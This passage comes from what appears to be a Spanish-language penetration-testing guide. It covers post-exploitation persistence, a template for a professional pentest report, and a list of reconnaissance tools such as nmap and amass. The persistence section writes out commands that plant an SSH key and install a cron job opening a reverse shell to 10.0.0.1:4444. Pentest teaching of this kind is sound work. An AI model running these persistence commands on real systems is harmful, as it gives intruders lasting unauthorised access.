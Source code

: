 #### Persistence techniques:
```bash
# SSH key persistence
mkdir ~/.ssh
echo "ssh-rsa AAAAB3N..." >> ~/.ssh/authorized_keys

# Cron job persistence
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'" | crontab -

# Service persistence
# Create malicious systemd service
```

### 6. **Reporting**

#### Estructura de reporte profesional:

```markdown
# Executive Summary
- Resumen ejecutivo para management
- Nivel de riesgo general
- Recomendaciones principales

# Technical Summary
- Metodología utilizada
- Scope del assessment
- Limitaciones

# Findings
Para cada vulnerabilidad:
- Severity: Critical/High/Medium/Low
- CVSS Score
- Description
- Impact
- Proof of Concept
- Remediation

# Appendices
- Raw scan outputs
- Screenshots
- Code snippets
```

---

## 🛠️ Herramientas Esenciales por Categoría

### Reconocimiento:
- **nmap**: Network discovery y port scanning
- **masscan**: Ultra-fast port scanner
- **subfinder**: Subdomain enumeration
- **amass**: Comprehensive OSINT framework
- **recon-ng**: Web reconnaissance framework
